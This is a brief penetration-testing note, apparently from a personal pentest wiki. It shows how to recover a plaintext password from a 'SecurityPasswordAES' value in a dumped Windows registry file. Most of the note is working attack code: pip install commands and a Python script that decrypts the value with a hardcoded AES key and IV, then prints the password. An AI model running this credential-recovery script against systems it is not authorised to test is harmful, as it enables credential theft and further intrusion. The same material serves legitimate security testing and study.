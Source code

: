 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

From dumped reg files:

"SecurityPasswordAES"=hex:2c,0f,ff,76,ca,03,d7,c2,1c,0d,3c,8b,55,ed,d8,de,37,\
  f8,97,20,ae,6e,d3,82,d0,ad,2e,70,f9,7e,ff,ea,0b,0c,1c,d9,01,cb,d1,ad,90,fc,\
  60,1b,9e,40,fc,9c,4b,af,65,ee,c5,19,62,eb,4e,da,cc,7c,30,a8,a6,6b,0c,bd,9f,\
  36,2a,c0,ca,d1,59,89,04,ae,cb,8b,96,10

Place above value into hex_str_cipher below:

```bash - kali
pip3 install hexdump
```

```bash - kali
pip3 install pycrypto
```

```python - kali
import sys, hexdump, binascii
from Crypto.Cipher import AES

class AESCipher:
    def __init__(self, key):
        self.key = key

    def decrypt(self, iv, data):
        self.cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return self.cipher.decrypt(data)

key = binascii.unhexlify("0602000000a400005253413100040000")
iv = binascii.unhexlify("0100010067244F436E6762F25EA8D704")

# Hex Cipher String
hex_str_cipher = "2C0FFF76CA03D7C21C0D3C8B55EDD8DE37F89720AE6ED382D0AD2E70F97EFFEA0B0C1CD901CBD1AD90FC601B9E40FC9C4BAF65EEC51962EB4EDACC7C30A8A66B0CBD9F362AC0CAD1598904AECB8B9610"

ciphertext = binascii.unhexlify(hex_str_cipher)

raw_un = AESCipher(key).decrypt(iv, ciphertext)

print(hexdump.hexdump(raw_un))

password = raw_un.decode('utf-16')
print(password)

```

